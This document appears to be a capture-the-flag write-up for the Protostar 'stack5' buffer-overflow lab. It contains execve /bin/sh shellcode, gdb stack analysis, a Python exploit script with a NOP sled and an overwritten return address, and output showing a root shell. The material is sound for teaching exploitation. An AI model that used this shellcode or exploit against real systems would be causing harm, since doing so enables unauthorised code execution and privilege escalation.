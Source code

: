 # STACK 5

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);           // <- Buffer Overflow
}
```

## IDEA

- We can see that is code has Buffer Overflow vulnerability, but we does not have win or get shell function, so, I write my own shellcode by disassemble from nasm code and put it in stack of program with BOF vuln and execute shellcode to get the shell.

## DETAIL

- This assembly code which we use to inject to stack must not have 0x0 byte (or NULL byte), because we read the input as a string, so if it has 0x0 byte, the gets function just terminated at that byte. 

```asm
section .text:
	global _start:
_start:
  push 	0xb
  pop 	eax                ; mov 	eax, 0xb
  xor 	edx, edx     	   ; mov 	edx, 0

  push 	edx                ; mov 	eax, "/bin/sh"
  push 	0x68732f2f
  push 	0x6e69622f
  mov 	ebx, esp

  xor 	ecx, ecx           ; mov 	ecx, 0
  int 	0x80
```

- Objdump and I have shellcode of this assembly file

```asm
λ ~ \ objdump -M intel -D shellcode

shellcode:     file format elf32-i386


Disassembly of section .text::

08049000 <_start>:
 8049000:       6a 0b                   push   0xb
 8049002:       58                      pop    eax
 8049003:       31 d2                   xor    edx,edx
 8049005:       52                      push   edx
 8049006:       68 2f 2f 73 68          push   0x68732f2f
 804900b:       68 2f 62 69 6e          push   0x6e69622f
 8049010:       89 e3                   mov    ebx,esp
 8049012:       31 c9                   xor    ecx,ecx
 8049014:       cd 80                   int    0x80
```

- The shellcode

```
\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

- We can play something fun with this shellcode in C

```c
// filename: vuln.c
#include<stdio.h>

int main()
{
  char shellcode[] = "\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";
   ( (void(*)())shellcode )();
  return 0;
}

// gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
```

- Compile with flag execstack to enable stack execute shellcode and disable the stack protector to make shellcode work.

```
λ ~ \ gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
λ ~ \ ./vuln
$ ls
vuln  vuln.c
$
```

- So the shellcode works pretty well. Let's check some informations and make some payload to exploit the vulnerability.

- The shellcode attack can understand by this below text

```
|                     from this                   to                    this
|                  .  .  .  .  .                                   .   .   .   .   .
|          +----------------------------+                   +----------------------------+
|          |                            |                   |                            |
|          |                            |                   |                            |
|          |    Content of function     |                   |    padding "aaaaaaaaa"     |
|          |                            |                   |                            |
S          |                            |                   |                            |
t          +----------------------------+                   +----------------------------+
a          |        EBP  Reserve        |                   |       padding "aaaa"       |
c          +----------------------------+         ->        +----------------------------+
k          |            RET             |                   |     address of RET + 75    |
|          +----------------------------+                   +----------------------------+
|          |                            |                   |                            |
|          |                            |                   | a bunch of "\x90" nopcode  |
|          |       some argument        |                   |     and after nopcode      |
|          |      of this function      |                   |        is shellcode        |
|          |                            |                   |                            |
|          +----------------------------+                   +----------------------------+
|                  .  .  .  .  .                                   .   .   .   .   .

```

```
(gdb) run
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
0x080483c4 <main+0>:     55     push   ebp
0x080483c5 <main+1>:     89 e5  mov    ebp,esp
0x080483c7 <main+3>:     83 e4 f0       and    esp,0xfffffff0
0x080483ca <main+6>:     83 ec 50       sub    esp,0x50
(gdb) x/40xw $esp
0xbffffcac:     0xb7eadc76      0x00000001      0xbffffd54      0xbffffd5c
0xbffffcbc:     0xb7fe1848      0xbffffd10      0xffffffff      0xb7ffeff4
0xbffffccc:     0x08048232      0x00000001      0xbffffd10      0xb7ff0626
0xbffffcdc:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffffcec:     0x00000000      0xbffffd28      0xfc6b4546      0xd62a5356
0xbffffcfc:     0x00000000      0x00000000      0x00000000      0x00000001
0xbffffd0c:     0x08048310      0x00000000      0xb7ff6210      0xb7eadb9b
0xbffffd1c:     0xb7ffeff4      0x00000001      0x08048310      0x00000000
0xbffffd2c:     0x08048331      0x080483c4      0x00000001      0xbffffd54
0xbffffd3c:     0x080483f0      0x080483e0      0xb7ff1040      0xbffffd4c
```

- Before run into main function, I check the top of stack and we can see that the ret of main has address `0xbffffcac`, so I will place this with `0xbffffcac + 75 = 0xbffffcf7` and padding after RET is 200 bytes "\x90" that is nopcode, the purpose of this stuff is that address of main's RET can vary in a range address at each time we run the program. So we add 200 bytes of nopcode to increase the possibility to return to nopcode which will gled to shellcode.  

- Then I find offset to overwrite and finish the exploit file.

## EXPLOIT


```python
# filename: exp.py

payload = "a"*76

ret = "\xfc\xfc\xff\xbf"
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload +=  ret + "\x90"*200 + shellcode

print(payload)

# python epx.py > temp.pwn
# (cat temp.pwn; cat) | ./stack5
```

## RESULT

```
root@protostar:/opt/protostar/bin# (cat temp.pwn; cat) | ./stack5
ls
exp.py  final0  final1  final2  format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7  temp.pwn
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```